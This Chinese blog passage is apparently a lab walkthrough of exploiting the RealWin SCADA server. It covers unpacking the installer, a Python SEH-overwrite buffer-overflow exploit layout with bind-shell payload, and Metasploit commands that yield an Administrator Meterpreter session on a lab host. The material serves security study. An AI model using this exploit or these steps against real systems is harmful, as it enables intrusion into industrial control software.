 然而逆向竟有些困难，根本找不到安装过程中出现的提示字符串。这说明思路可能不对。回过头看它显示`7z Setup SFX`，于是搜了一下，原来这个包是用7z制作的自解压文件。

那就先把它解压出来：

![Bildschirmfoto 2018-10-29 um 11.13.37 AM.png]({{ site.url }}/images/metasploit/ADBF8439EAF78043478FCA2F117F5945.png)

我们关心的是`RwSetupD`这个文件，它才是Realwin真正的安装包。我先用PEiD查一下它：

![Bildschirmfoto 2018-10-29 um 11.15.08 AM.png]({{ site.url }}/images/metasploit/D201F80B8C05AB72D729A05A9FBF4A53.png)

提示是`Wise`安装包。运行这个包，最后会提醒我输入密码。从[Wise UNpacker GUI(Wise解包工具) v0.90A绿色版](http://www.opdown.com/soft/102257.html)拿一个解包工具吧：

![Bildschirmfoto 2018-10-29 um 11.19.19 AM.png]({{ site.url }}/images/metasploit/48EF9C3D14A817733C532D66AA3FDD3A.png)

输入这个密码，安装成功。

运行界面如下：

![Bildschirmfoto 2018-10-29 um 11.22.13 AM.png]({{ site.url }}/images/metasploit/A18CAA915D9DD2835AB860EB358F9F06.png)

### Exploit

原ExP是有效的，这里就不再给出其验证过程。需要注意的是，它使用的payload是Metasploit的`windows/shell/bind_tcp`，攻击成功后并不会直接给出shell，需要我们在Msf中使用`exploit/multi/handler`去连接目标机器的shell。它使用的依然是覆盖SEH的方法，逻辑如下：

```py
shellcode = "..." # windows/shell_bind_tcp

head = "\x64\x12\x54\x6A\x20\x00\x00\x00\xF4\x1F\x00\x00"
junk = "\x41" * 228
next_seh = "\xeb\x06\x90\x90"   # overwrites next seh
seh = "\xea\xe3\x02\x40"        # seh overwritten at 232 bytes - 4002e3ea
nops = "\x90" * 20              # nop sled
junk2 = "\x42" * (7972 - len(shellcode)) # 1740 bytes for shellcode

s.send(head + junk + next_seh + seh + nops + shellcode + junk2 + "\r\n")
```

排布一目了然。

我们也不再改写它，直接使用Metasploit中的`exploit/windows/scada/realwin_scpc_initialize`进行渗透。

```
msf > use exploit/windows/scada/realwin_scpc_initialize
msf exploit(windows/scada/realwin_scpc_initialize) > set RHOST 172.16.56.134
RHOST => 172.16.56.134
msf exploit(windows/scada/realwin_scpc_initialize) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(windows/scada/realwin_scpc_initialize) > exploit

[*] 172.16.56.134:912 - Trying target Universal...
[*] Started bind TCP handler against 172.16.56.134:4444
[*] Sending stage (179779 bytes) to 172.16.56.134
[*] Meterpreter session 4 opened (172.16.56.1:62985 -> 172.16.56.134:4444) at 2018-10-29 12:06:52 +0800

meterpreter > getuid
Server username: DESTINY-7846DE5\Administrator
```
